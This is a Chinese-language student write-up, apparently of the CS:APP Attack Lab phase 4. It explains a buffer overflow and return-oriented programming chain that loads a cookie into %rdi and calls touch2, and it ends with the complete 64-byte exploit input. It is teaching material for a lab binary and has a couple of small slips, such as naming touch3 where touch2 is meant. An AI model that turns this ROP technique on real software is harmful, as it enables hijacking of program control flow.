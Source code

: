 然后我们能够控制的就是缓冲区的输入，替换掉ret的地址，然后一直链式反应，执行我们的代码.

比如`ret`的字节码是`c3`, `nop`的字节码是`90`

那么我们需要有这样的栈结构（尽管会破坏test函数栈）:

当`getbuf`执行完毕，`%rsp`加上`0x28`然后指向下面的`address`

然后进行`ret`指令

```text
address + 0x8: [gadget 2的地址]
address:       [gadget 1的地址]  # <- %rsp 即将ret跳转到gadget1
--------上面是栈的结构----------

gadget 1: bf fa 97 b9 59 c3 # mov <cookie>, %edi; ret
gadget 2: 68 ec 17 40 00 c3 # pushq $0x4017ec; ret然后进入touch2
```

那么一目了然，只需要找到这样的字节码就行，然后在缓冲区输入gadgets的地址就行。

很遗憾我并没有从`farm`相关的字节码找到最核心的`0x4017ec`和`0x59b997fa`

所以我们必须在缓冲区输入这个地址，然后利用`pop`指令，让某个寄存器存放这个值（touch3的地址或者cookie值）

所以进一步推理栈的结构很可能是这:

```text
address + 0x10:[touch2的地址]
address + 0x8: [cookie的值]
address:       [gadget 1的地址]  # <- %rsp 即将ret跳转到gadget1
--------上面是栈的结构----------

gadget 1: popq %rdi;            # 将cookie存放在rdi中
gadget 2: ret;                  # 然后ret进入touch2
```

让我们梳理一下，按照上述的栈结构，发生了什么。

当我们输入好攻击的内容后，栈变成上述内容。然后`getbuf`即将返回，`%rsp`指向ret的地址(已经被我们篡改成gadet 1的地址)。然后`%rsp`再次加0x8，同时我们进入gadet1，执行`pop`指令把cookie存在`%rdi`。pop指令一执行，`%rsp`再次加0x8然后，再紧接着执行gadget2的`ret`，也就是进入`touch3`

也就是，我们需要这样的gadgets:

```text
5f c3 # popq $rdi; ret;
```

在`rtarget.asm`中，很容易找到:

```nasm
  401419: 69 c0 5f c3 00 00            	imull	$0xc35f, %eax, %eax     # imm = 0xC35F
```

所以gadgets的地址是`0x40141b`

所以缓冲区输入`phase4.txt`:

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
1b 14 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
ec 17 40 00 00 00 00 00
```
